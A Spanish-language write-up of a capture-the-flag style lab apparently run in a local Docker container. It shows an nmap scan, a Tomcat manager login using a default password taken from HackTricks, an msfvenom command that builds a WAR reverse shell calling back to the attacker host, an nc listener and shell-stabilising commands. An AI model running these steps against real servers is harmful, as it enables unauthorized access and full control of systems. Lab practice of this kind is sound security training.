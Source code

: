 Empiezo usando nmap: 

```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240907204742.png)

Me descargo el archivo:
![](imágenes/Pasted%20image%2020240907204853.png)

El contenido parece indicar que hay un usuario llamado tomcat: 
![](imágenes/Pasted%20image%2020240907204916.png)

Usaré ese usuario en manager app, probando las contraseñas que encontré en [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat):

![](imágenes/Pasted%20image%2020240907210520.png)

tomcat:s3cr3t es la que funciona. 

Veo que puedo subir archivos ".war", y en la misma página veo que puedo usarlo para subir una reverse shell:
![](imágenes/Pasted%20image%2020240907210938.png)

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=9001 -f war -o revshell.war
```

Hago `nc -lnvp 9001`, a /revshell/ y ya tengo una reverse shell:

![](imágenes/Pasted%20image%2020240907211518.png)

Realmente ya estaría porque soy root, pero podría tratar la tty para que fuera más cómodo: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

![](imágenes/Pasted%20image%2020240907211628.png)

